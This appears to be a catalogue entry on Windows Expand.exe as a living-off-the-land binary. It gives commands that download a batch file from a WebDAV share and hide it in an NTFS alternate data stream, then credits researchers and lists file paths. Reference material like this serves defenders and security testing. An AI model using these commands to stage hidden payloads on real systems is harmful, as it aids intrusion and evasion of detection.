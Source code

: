 ## Expand.exe

* Functions: Download, Copy, Add ADS

```
expand \\webdav\folder\file.bat c:\ADS\file.bat    

expand c:\ADS\file1.bat c:\ADS\file2.bat    

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat     
```

Acknowledgements:
* Rahmat Nurfauzi - @infosecn1nja
* Oddvar Moe - @oddvarmoe

Code sample:
* [NameOfLink](Payload/NameOfPayload)

Resources:
* https://twitter.com/infosecn1nja/status/986628482858807297
* https://twitter.com/Oddvarmoe/status/986709068759949319

Full path:
```
c:\windows\system32\Expand.exe
c:\windows\sysWOW64\Expand.exe
```

Notes:



 
